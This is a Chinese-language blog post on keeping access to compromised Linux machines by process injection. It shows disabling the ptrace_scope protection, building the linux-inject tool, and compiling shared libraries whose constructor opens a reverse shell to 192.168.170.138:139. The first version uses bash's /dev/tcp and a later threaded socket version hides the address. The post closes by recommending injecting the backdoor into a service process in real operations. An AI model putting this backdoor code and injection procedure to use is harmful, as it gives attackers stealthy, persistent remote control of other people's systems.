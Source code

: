 ```yaml
---
title: Linux权限维持之进程注入
layout: post
date: '2020-01-01'
categories: C++/C
permalink: "/archivers/2020-01-01/2"
description: 通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。
---
```


## 说明

通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。进程注入通过调用`ptrace()`实现了与Windows平台下相同作用的API 函数`CreateRemoteThread()`。在许多Linux发行版中，内核的默认配置文件`/proc/sys/kernel/yama/ptrace_scope`限制了一个进程除了`fork()`派生外，无法通过`ptrace()`来操作另外一个进程。

要注入进程前，需要关闭这个限制（Root权限）：

```echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope```

![2020-01-03-13-10-44](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/28f181718173d69326f3bfc58a3c0cbb.png)

在Github上已经有了关于进程注入的实现代码：`https://github.com/gaffe23/linux-inject`

下载后进入项目目录，执行：make x86_64 即可编译64位的linux-inject。



![2020-01-03-13-10-54](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7b89dc61d7952191a608716bdcf951b8.png)


确认编译是否正常：

![2020-01-03-13-11-04](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/8251535f3c0f9b55243940b6de2cf34b.png)

获取sample-target的PID后，调用inject程序来注入sample-library.so，注入成功会输出“I just got loaded”。
接下来，需要更改sample-target.c文件，编译成需要的权限维持动态链接库。


```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>


void shell()
{
	printf("I just got loaded\n");
    system("bash -c \"bash -i >& /dev/tcp/192.168.170.138/139 0>&1\"");
   
}


__attribute__((constructor))
void loadMsg()
{
   shell();
}

```

通过如下命令编译so文件：

```
clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o u9.so -lpthread -fPIC U3.c

```

![2020-01-03-13-11-16](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ae110053d720c18b8c6bfb24a5483d4b.png)


编译成so文件成功后的测试效果：

![2020-01-03-13-11-27](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d23ecdf9310a3dce4fd8839d9d10e270.png)

在Kali Linux这边获得了bash shell：

![2020-01-03-13-11-47](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c2d15b84db450b39e55766b2097fd0c2.png)

此时发现测试程序的主线程被bash阻塞了，于是可以采用多线程技术，将后门代码与正常逻辑分离执行。

![2020-01-03-13-11-58](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/9e990f101b1f5bee215f4175926ac896.png)

但利用这种方式在执行的过程中，查看进程参数还是会被查看到IP地址和端口：

![2020-01-03-13-12-09](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b920dfc70a90769b21214fd5d217dbbc.png)

查看到IP与端口：

![2020-01-03-13-12-19](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/5f6901fde3fc0693424326f3deeede92.png)

再继续改进代码，采用socket套接字的方式来反弹shell：

```c
#include <stdio.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <pthread.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>


static void * hello()
{

    struct sockaddr_in server;
    int sock;
    char shell[]="/bin/bash";
    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return NULL;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(139);
    server.sin_addr.s_addr = inet_addr("192.168.170.138");
    if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
        return NULL;
    }
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    execl(shell,"/bin/bash",(char *)0);
    close(sock);
	printf("I just got loaded\n");
    return NULL;
}

__attribute__((constructor))
void loadMsg()
{
    pthread_t thread_id;
    pthread_create(&thread_id,NULL,hello,NULL);
}


```


执行效果：

![2020-01-03-13-12-35](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/fa4136ff8822c555b4008bce084f88a4.png)


Kali Linux获得bash shell：

![2020-01-03-13-12-46](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/003ee8252435ab25e2b012763fbf8d82.png)

在实战应用中，需要关闭ptrace的限制，然后注入.so到某个服务进程中，这样达到权限维持的目的。


